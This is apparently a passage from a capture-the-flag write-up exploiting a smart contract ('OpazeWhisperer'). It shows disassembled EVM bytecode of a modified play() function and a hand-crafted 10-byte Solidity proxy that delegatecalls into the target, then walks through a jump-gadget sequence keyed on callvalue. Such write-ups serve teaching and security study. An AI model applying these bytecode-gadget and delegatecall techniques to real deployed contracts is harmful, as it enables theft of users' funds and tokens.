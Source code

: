 #### The Exploit

Let's break down the actual deployed bytecode's behavior.

##### Modified play() Implementation

The deployed version adds checks before NFT transfer:

```assembly
0x2ae: EXTCODESIZE
0x2af: PUSH1     0xa
0x2b1: DUP2      
0x2b2: GT        
0x2b3: ISZERO    
0x2b4: PUSH2     0x2b9
0x2b7: JUMPI     
0x2b8: STOP      
0x2b9: JUMPDEST  
0x2ba: POP       
0x2bb: PUSH1     0x2
0x2bd: PUSH1     0x8
0x2bf: PUSH0     
0x2c0: CALLER    
0x2c1: EXTCODECOPY
```

Key requirements:
1. Caller must be a contract
2. Caller's code size must be ≤ 10 bytes
3. Bytes at offset 8-9 are used as a jump target

##### Building the Exploit

The attack requires a specific sequence of jumps and operations:

1. Set up the minimal proxy contract (≤10 bytes):
```solidity
contract Proxy {
   constructor() {
       assembly {
           mstore(0, 0x5F5F5F5F335aF400414100000000000000000000000000000000000000000000)    // gas caller push0 push0 push0 push0 delegatecall
           mstore8(8, 0x06)    // offset for initial jump
           mstore8(9, 0x60)
           return(0, 10)
       }
   }
}
```

2. Execute the jump sequence:
   - Initial call includes a callvalue of 0x02D4 (target for final VM execution)
   - Delegate call transfers execution to OpazeWhisperer
   - Jump to 0x660 gadget for memory initialization
   - Gadget stores 1 at memory location 0x1337
   - Use CALLVALUE (0x02D4) to jump to VM entry point
   - Begin VM instruction execution with prepared calldata
